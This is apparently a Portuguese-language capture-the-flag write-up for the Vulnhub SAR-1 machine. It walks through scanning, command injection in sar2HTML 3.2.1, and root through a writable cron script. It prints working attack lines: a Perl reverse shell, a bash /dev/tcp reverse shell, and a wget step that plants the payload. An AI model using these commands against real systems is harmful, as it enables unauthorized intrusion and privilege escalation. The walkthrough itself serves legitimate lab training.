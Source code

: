 ```yaml
---
title: Vulnhub - SAR-1
categories: [Vulnhub]
#tags: []
---
```


![](/assets/img/Vulnhub/SAR-1/capa.png)

Link da Maquina: <https://www.vulnhub.com/entry/sar-1,425/>

# Scan/Enumeracao


## Host Discovery


* Com o comando arp-scan vamos descobrir quais sao os hosts que estao up na rede

```bash
sudo arp-scan -I eth1 192.168.150.0/24
```

![](/assets/img/Vulnhub/SAR-1/host-discovery.png)


## Port Discovery


* Vamos descobrir as portas quqe estao abertas no alvo

```bash
sudo nmap -n -T5 -p- 192.168.150.114 
```

![](/assets/img/Vulnhub/SAR-1/port-discovery.png)




## Port Scan


* Vamos escanear a porta que esta aberta para descobrir qual o servico que esta rodando e qual a versao

```bash
sudo nmap -n -T5 -A -p 80 192.168.150.114
```

![](/assets/img/Vulnhub/SAR-1/port-scan.png)

> POrta 80: Apache httpd 2.4.29




# Exploracao


## Web


### Acessando a pagina pelo browser

* Na pagina principal da aplicacao temo a "Default Page" do Apache2

![](/assets/img/Vulnhub/SAR-1/apache1.png)




### Fuzzy de diretorios

* Rodando o gobuster para procurar por mais arquivos e diretorios

```bash
gobuster dir -u http://192.168.150.114 -w /usr/share/wordlists/dirb/big.txt -x php,txt
```

![](/assets/img/Vulnhub/SAR-1/gobuster1.png)




* Achamos dois arquivos, **phpinfo.php** e **robots.txt**. No phpinfo temos as informacoes de configuracao do Apache

![](/assets/img/Vulnhub/SAR-1/phpinfo.png)


* No outro arquivo robots temos uma palavra **sar2HTML**

![](/assets/img/Vulnhub/SAR-1/robots.png)




### sar2HTML


* Conseguimos acessar uma outra pagina web com a dica que recebemos no robots: http://192.168.150.114/sar2HTML/

![](/assets/img/Vulnhub/SAR-1/sar2HTML.png)


* Jogando no google o nome da aplicacao ja apareceram inumeros sites com a vulnerabilidade dessa aplicacao




* Entrando no site www.exploit-db.com e procurando por exploits para o **sarHTML versao 3.2.1** temos um para RCE. Inicialmente analisando o exploit, ele e feito em python e a principio consegue executar comando atraves da URL **"{url}/index.php?plot=;{cmd}"**

![](/assets/img/Vulnhub/SAR-1/exploit-db-sarHTML.png)




* Vamos baixa-lo, dar permissao de execucao para o script e executa-lo

![](/assets/img/Vulnhub/SAR-1/rce-sarHTML.png)

> 1 - Executamos o script com python3

> 2 - Inserimos a URL da aplicacao

> 3 - Inserimos o comando para ser executado no alvo


## RCE / Shell Reverso


* Agora vamos seguir os seguintes passos:

![](/assets/img/Vulnhub/SAR-1/shell-reverso.png)

> 1 - Deixar uma porta escutando na kali

> 2 - procurar com o [rbscheat](https://github.com/marciosouza20/rbscheat) um comando par nos enviar um shell em **perl**. Mas porque em perl? Testamos varios comandos ate termos sucesso com o comando em perl para hosts Linux que nao possuem /bin/sh. 

> 3 - `perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.150.110:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

> 4 - Enviamos para o nosso alvo por meio do exploit

> 5 - E por fim recebemos o **SHELL REVERSO**!


## Melhorando o Shell


* Vamos melhorar o nosso shell reverso

```bash
script /dev/null
export TERM=xterm
python3 -c "import pty;pty.spawn('/bin/bash')"
```

![](/assets/img/Vulnhub/SAR-1/melhorando-shell.png)




# Escalando Privilegio


* Primeiramente procuramos por diretorios e arquivos com pesmissao de escrita. Procuramos tambem por binarios com SUID e listamos o que podemos executar como sudo

```bash
find / -type d -writable 2> /dev/null | fgrep -v proc
find / -type f -writable 2> /dev/null | fgrep -v proc
find / -perm -4000 2> /dev/null | fgrep -v proc
sudo -l
```


* Nao conseguimos achar nada de interessando inicialmente. Entao vamos tranferir o linpeas para o alvo

![](/assets/img/Vulnhub/SAR-1/transferindo-linpeas.png)




* Executamos o linpeas

![](/assets/img/Vulnhub/SAR-1/executamos-linpeas.png)


* Duas coisas chamaram antencao no resultado do linpeas. 

![](/assets/img/Vulnhub/SAR-1/crontab-1.png)

![](/assets/img/Vulnhub/SAR-1/crontab-2.png)

> A primeira coisa que nos chama atencao e uma tarefa agendada no crontab



![](/assets/img/Vulnhub/SAR-1/linpeas-out-1.png)

![](/assets/img/Vulnhub/SAR-1/linpeas-out-2.png)

> A segunda e que podemos escrever em um arquivo que esta no diretorio /var/spool/cron/crontabs 


* Verificando o **/etc/crontab** podemos observar que a tarefa se trata em executar um arquivo, **/var/www/html/finally.sh**

![](/assets/img/Vulnhub/SAR-1/etc-crontab.png)


* Ao verificar esse arquivo observamso que ele executa outro script **write.sh**, que esta no mesmo diretorio. Para a nossa alegria temos permissao de escrita no arquivo write.sh. 

![](/assets/img/Vulnhub/SAR-1/etc-crontab.png)




* Agora vamos criar um arquivo na nossa maquina kali com o nome "write.sh". 

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.150.110/443 0<&1
```

![](/assets/img/Vulnhub/SAR-1/write-kali.png)


* Depois de ter feito o arquivo vamos levantar um servidor web com o python na nossa maquina, baixar ele no alvo e dar permissao total pra ele

```bash
wget 192.168.150.110/write.sh
chmod 777 write.sh
```

![](/assets/img/Vulnhub/SAR-1/write-alvo.png)


* Agora e so deixar a porta escutando na nossa maquina e qnd o spript for executado a proxima vez viraremos **ROOT**!




# ROOT


* **Pronto, agora somos ROOT!**

![](/assets/img/Vulnhub/SAR-1/root.png)


# Flag


* Conseguimos pegar a flag do **user.txt** e a **root.txt**

![](/assets/img/Vulnhub/SAR-1/flag-user.png)

![](/assets/img/Vulnhub/SAR-1/flag-root.png)
